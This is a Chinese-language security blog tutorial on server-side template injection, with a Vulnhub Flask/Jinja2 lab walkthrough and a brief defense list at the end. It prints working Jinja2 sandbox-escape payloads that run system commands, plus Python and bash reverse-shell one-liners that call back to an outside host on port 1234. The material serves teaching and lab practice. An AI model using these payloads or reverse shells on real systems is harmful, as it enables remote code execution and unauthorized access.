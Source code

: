 ```yaml
---
layout: post
title:  "SSTI(模板注入)的攻防战"
categories: 漏洞
tags: 渗透测试 渗透 漏洞
author: 柠枫
---
```




* content
{:toc}








## 前言

SSTI 全称Server Side Template Injection，服务器模板注入，先上一张图,各位可先看图根据后文加深印象

![图片1.png](https://i.loli.net/2020/02/18/3KxRsYFz4nM81Pi.png)

## SSTI的简单讲解

模板引擎可以让（网站）程序实现界面与数据分离，业务代码与逻辑代码的分离，这大大提升了开发效率，良好的设计也使得代码重用变得更加容易。与此同时，它也扩展了黑客的攻击面。除了常规的 XSS 外，注入到模板中的代码还有可能引发 RCE（远程代码执行）。通常来说，这类问题会在博客，CMS，wiki 中产生。虽然模板引擎会提供沙箱机制，攻击者依然有许多手段绕过它。

和常见Web注入的成因一样，也是服务端接收了用户的输入，将其作为 Web 应用模板内容的一部分，在进行目标编译渲染的过程中，执行了用户插入的恶意内容，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性，所以说 用户的输入永远都是不可信的。

通过模板，Web应用可以把输入转换成特定的HTML文件或者email格式。就拿一个销售软件来说，我们假设它会发送大量的邮件给客户，并在每封邮件前SKE插入问候语，它会通过Twig（一个模板引擎）做如下处理：

```bash
$output = $twig->render( $_GET['custom_email'] , array("first_name" => $user.first_name) );
```

有经验的小伙伴可能会立刻想到xss，但是问题不止如此，此时我们可以尝试使用ssti：假设我们发送如下请求，

```bash
    custom_email={{7*7}} // GET 参数
    49  // $output 结果
```

    还有更神奇的结果：

```bash
    custom_email={{self}} // GET 参数
    Object of class
    __TwigTemplate_7ae62e582f8a35e5ea6cc639800ecf15b96c0d6f78db3538221c1145580ca4a5
    could not be converted to string // 错误
```

我们不难猜到服务器执行了我们传过去的数据。每当服务器用模板引擎解析用户的输入时，这类问题都有可能发生。除了常规的输入外，攻击者还可以通过 LFI触发它。模板注入和 SQL 注入的产生原因有几分相似——都是将未过滤的数据传给引擎解析。

## 实战

Vulnhub的Flask/Jinja2中的服务端模版注入

首先我们看看他的代码：

```php
from flask import Flask, request
from jinja2 import Template
app = Flask(__name__)
@app.route("/")
def index():
name = request.args.get('name', 'guest')
t = Template("Hello " + name)
return t.render()
if __name__ == "__main__":
app.run()
```

可以看到Template("Hello " +name)，Template()则是用户可控的，我们就可以这么来：

![图片2.png](https://i.loli.net/2020/02/18/HVuZ9v5RSAQjGWs.png)

![图片3.png](https://i.loli.net/2020/02/18/X7ohF6zIaYAxrq2.png)

随手尝试一波xss，这边是没有经过任何处理的 所以有xss很正常

此时写入模板语句:

![图片4.png](https://i.loli.net/2020/02/18/GK3xRF7ifA1Y85U.png)

可以看到也是能成功执行的，那么我们需要怎么利用呢？

我们知道 在python当中 执行系统命令需要import os模块；

然而 想要在模板中直接调用内置模块 os，即需要在模板环境中对其注册

需要在上层的代码里加一句:

```php
t.globals['os'] = os
```

如果没有加这一句，直接使用os中的方法会报错。
那么，如何在未注册 os 模块的情况下在模板中调用 popen() 函数执行系统命令呢？这就要用各种下划线函数了。

且因为python2与python3存在差异 所以这里找到了个通用的payload

```php
for c in ().__class__.__bases__[0].__subclasses__():
    if c.__name__=='_IterationGuard':         c.__init__.__globals__['__builtins__']['eval']("__import__('os').system('whoami')")
```

用jinja的语法即为（执行命令使用os.popen('whoami').read()才有执行结果的回显）

```bash
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__==\'_IterationGuard\' %}
{{ c.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('whoami').read()\") }}
{% endif %}
{% endfor %}
```

看到别的大神也有使用func_global模块的linecache 我这里也把代码贴出来 其实都是差不多的：

```bash
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
{{c.__init__.func_globals['linecache'].__dict__['os'].system('id') }}
{% endif %}
{% endfor %}
```

![图片5.png](https://i.loli.net/2020/02/18/HyIEcUkF7VaWhb1.png)

可以看到成功执行了whoami命令 后续的话想反弹shell可以直接用python反弹或者bash...

```python
python -c
'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.80.134",1234));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);
'
```

```bash
Bash:
受害机命令
bash -i >& /dev/tcp/x.x.x.x/1234 0>&1

本机命令
nc -lvvvp 1234
```

## 防御

* 尽可能加载静态模板文件
* 不要允许用户控制此类文件或其内容的路径
